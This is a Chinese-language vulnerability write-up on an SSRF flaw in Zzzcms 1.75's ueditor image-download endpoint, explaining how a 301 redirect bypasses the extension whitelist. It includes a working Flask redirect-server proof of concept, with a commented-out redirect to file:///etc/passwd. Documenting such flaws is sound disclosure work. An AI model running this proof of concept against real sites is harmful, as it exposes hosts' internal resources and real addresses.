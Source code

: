 Zzzcms 1.75 ssrf
================

一、漏洞简介
------------

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

### 漏洞分析

功能实现在

    plugins/ueditor/php/controller.php

![](resource/Zzzcms1.75ssrf/media/rId25.png)

传入的post参数进入safe\_url函数进行处理，然后传入down\_url函数。这里safe\_url函数作用不大，主要是在down\_url中的逻辑。

在down\_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![](resource/Zzzcms1.75ssrf/media/rId26.png)

最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file\_ext函数传入`http://XXXX/x.php?x.jpg`得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：

    from flask import Flask,redirect,request
    app = Flask(__name__)
    @app.route('/1.txt')
    def index(page_name=''):
        #return redirect('file:///etc/passwd', code=301) #not work
        return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=9000, debug=app.debug)

![](resource/Zzzcms1.75ssrf/media/rId27.png)

![](resource/Zzzcms1.75ssrf/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/7414
